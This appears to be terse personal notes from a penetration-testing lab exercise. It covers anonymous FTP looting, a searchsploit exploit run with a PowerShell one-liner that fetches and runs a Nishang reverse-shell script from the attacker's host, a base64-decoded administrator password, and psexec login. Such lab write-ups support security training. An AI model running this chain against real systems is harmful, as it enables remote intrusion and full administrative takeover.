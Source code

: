 ## Metadata
- Anonymous login enabled at port 21
	- Run `wget -m --no-passive-ftp ftp://anonymous:@192.168.133.111` to download everything.![[Pasted image 20240315141348.png]]
- ![[Pasted image 20240315213651.png]]
- 
# Exploitation
- `searchsploit -m 51127`
- `python3 -m http.server 80`
- `nc -lnvp 443`
- `python3 51127.py -t 192.168.133.111 -c "powershell.exe -nop -w hidden -c iex(iwr http://192.168.49.133/Windows/nishang/Shells/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.49.133 -Port 443"`
![[Pasted image 20240315213257.png]]
![[Pasted image 20240315213455.png]]
# PrivEsc
- ![[Pasted image 20240316081100.png]]
- ![[Pasted image 20240316081128.png]]
- `echo WmVicmFMaW9uR2lyYWZmZTAxMAo | base64 -d`![[Pasted image 20240316081320.png]]
- `impacket-psexec oscp.exam/administrator:ZebraLionGiraffe010@192.168.133.111 powershell.exe`
- ![[Pasted image 20240316080838.png]]